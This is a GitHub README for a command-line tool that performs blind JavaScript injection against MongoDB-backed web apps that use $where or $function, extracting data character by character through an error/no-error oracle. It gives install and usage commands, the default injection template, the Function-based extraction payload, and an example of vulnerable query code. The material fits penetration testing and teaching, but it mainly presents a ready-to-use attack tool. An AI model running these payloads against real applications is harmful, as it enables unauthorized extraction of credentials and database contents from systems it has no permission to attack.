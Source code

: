# MongoDB JS Injection CLI
**Interactive JS injection into MongoDB.**

This scripts allows you to easily list existing variables and print their values using blind JS injection (the only required output from the victim is some kind of true/false - by default it is error/no error).

![Injection CLI Showcase](showcase.gif)

## Installation
To install simply run:

```console
$ git clone https://github.com/brun0ne/mongodb-js-injection-cli
$ pip install -r requirements.txt
```

## Usage
```console
$ python3 mongo-injection-cli.py --help
usage: mongo-injection-cli.py [-h] [--login LOGIN] [--headers HEADERS] [--template TEMPLATE] [--field FIELD] [--method METHOD] [--error ERROR] url

CLI for JS injection into MongoDB

positional arguments:
  url                  ex: http://example.com/vulnerable/page

options:
  -h, --help           show this help message and exit
  --login LOGIN        authenticate before doing anything
                       ex: login:password@http://example.com/login-page
  --headers HEADERS    JSON file containing HTTP headers
  --template TEMPLATE  injection template
                       default: admin' && {test} ? Math : throwerrorplease ||'
  --field FIELD        parameter to inject to, default: username
  --method METHOD      HTTP method, default: GET
  --error ERROR        string for detecting when injected check returned false
                       default: Internal Server Error
```

## Examples
Default settings and provided **headers.json** file (put your session cookies there if needed):

```console
$ python3 mongo-injection-cli.py --headers headers.json http://example.com/vulnerable-page
```

Using **automatic login** with session (you probably have to edit the script to make it work):

```console
$ python3 mongo-injection-cli.py --login user:password@example.com/login http://example.com/vulnerable-page
```

Different **injection template**, **HTTP Method** and **vulnerable parameter**:

```console
$ python3 mongo-injection-cli.py --headers headers.json --method POST --field login --template <your template containing {test}> http://example.com/vulnerable-page
```
## How it works
JavaScript injection is possible when app using MongoDB insecurely uses [$where](https://www.mongodb.com/docs/manual/reference/operator/query/where/) or [$function](https://www.mongodb.com/docs/manual/reference/operator/aggregation/function/).

Vulnerable code might look similar to this:
```js
const query = { $where: `this.username === '${username}' && this.password === '${passToTest}'` };
```

This script (by default) injects into `username` parameter:
```js
admin' && ({test} ? Math : throwerrorplease) ||'
```

inserting into `{test}` the JavaScript expression we want to get **true/false** out of.

If it returned **true** we get a working page. **If not**, it tries to get `throwerrorplease` which doesn't exist, and throws some kind of **error we can detect**.

This way, if we test for:
```js
(Function("return (function(){ /* our code */ }).bind(this)()").call(this)).toString().startsWith("/* what we got so far + new character */")
```

we can extract values character by character, preserving `this` containing fields returned by the database (`this.username`, etc).

This script also has a built-in, prepended function `getAll(<object>)` which **returns a list of every method and attribute of the provided object** (also the inherited ones).


